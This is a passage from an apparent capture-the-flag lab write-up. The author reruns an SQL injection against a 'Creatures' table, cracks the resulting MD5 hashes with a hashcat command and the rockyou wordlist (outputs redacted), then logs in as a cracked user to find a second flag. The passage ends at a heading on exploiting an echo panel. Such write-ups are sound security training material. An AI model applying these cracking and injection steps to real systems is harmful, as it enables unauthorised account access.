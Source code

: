 Four out of five isn't bad! And the one we didn't crack was the one we found in the log file anyway.

Let's change the query table to Creatures and run our SQLi payload again; four more hashes are appended to the page. Let's crack those too.

```console
hashcat -m0 -a0 creatures /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.1.1) starting...
...
3898e56bf6fa6ddfc3c0977c514a65a8:REDACTED
5d20441c392b68c61592b2159990abfe:REDACTED
f847149233ae29ec0e1fcf052930c044:REDACTED
ea5540126c33fe653bf56e7a686b1770:REDACTED

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: creatures
...
```

# Second Flag

With all of the hashes cracked, we can authenticate as each user and see if any of them have elevated privileges. Sure enough, when we log in as M!notaur there's a flag in the menu and an extra link to "Secret_Stuff".

![Blurred flag in the menu bar](/assets/img/20220114142110.png)

# Exploiting the Echo Panel
